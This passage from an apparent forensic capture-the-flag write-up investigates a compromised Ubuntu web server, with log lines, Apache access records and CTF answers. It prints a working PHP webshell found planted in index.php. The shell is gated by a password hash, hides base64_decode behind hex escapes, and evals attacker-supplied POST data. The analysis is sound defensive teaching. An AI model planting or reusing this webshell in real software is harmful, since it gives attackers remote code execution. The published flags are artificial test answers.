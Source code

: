 Apr 12 08:16:59 ip-172-31-37-6 sudo[13643]:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/cat /root/.bash_history

{% endhighlight %}

A lot of really suspicious activity, however there is also some execution of php in the `simple-php-website` followed by a removal of the `/tmp/.xz` file - an indicator for XZBot.
Let's dive into the php files that were moved to `/var/www/html`, and check the `index.php`

{% highlight php %}
root@ip-172-31-33-224:~# cat /var/www/html/index.php 
<?php

// Comment these lines to hide errors
error_reporting(E_ALL);
ini_set('display_errors', 1);

require 'includes/config.php';
require 'includes/functions.php';

init();
if (@$_POST['do'] && @md5(md5($_POST['pass'])) == '696d29e0940a4957748fe3fc9efd22a3') {
    $x = "\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65";
    @eval($x($_POST['do']));
    exit();
}
{% endhighlight %}

The md5sum is for the text `password`, and the hex encoded string is `base64_decode` - so we are looking at a webshell which executes code in base64 format, if the POST contains `pass=password`. 

Mapping this to the MITRE ATT&CK framework, will be `Persistence` > `Server Software Component` > `Web Shell`.

{% include cd_flag.html id="6" description="Getting back to our compromised server, we suspect a persistent threat. What is the MITRE-ID of the persistence technique utilized by the attacker in this incident?" flag="T1505.003" %}

### Q7. To correlate with our external traffic logs, what was the IP address used by the attacker during the suspected unauthorized access events?

As we previously established, we need to look for POSTs to the `index.php` file which can be read in the Apache logs:

{% highlight terminal %}
oot@ip-172-31-33-224:~# grep POST /var/log/apache2/access.log.1 | grep index
44.207.251.118 - - [12/Apr/2024:08:54:10 +0000] "POST /index.php HTTP/1.1" 200 2323 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
44.207.251.118 - - [12/Apr/2024:08:54:56 +0000] "POST /index.php HTTP/1.1" 200 74372 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
44.207.251.118 - - [12/Apr/2024:09:05:02 +0000] "POST /index.php HTTP/1.1" 200 2465 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
44.207.251.118 - - [12/Apr/2024:09:05:47 +0000] "POST /index.php HTTP/1.1" 200 2323 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
44.207.251.118 - - [12/Apr/2024:09:07:58 +0000] "POST /index.php HTTP/1.1" 200 2332 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
44.207.251.118 - - [12/Apr/2024:09:08:17 +0000] "POST /index.php HTTP/1.1" 200 2426 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"
44.207.251.118 - - [12/Apr/2024:09:11:25 +0000] "POST /index.php HTTP/1.1" 200 2468 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36"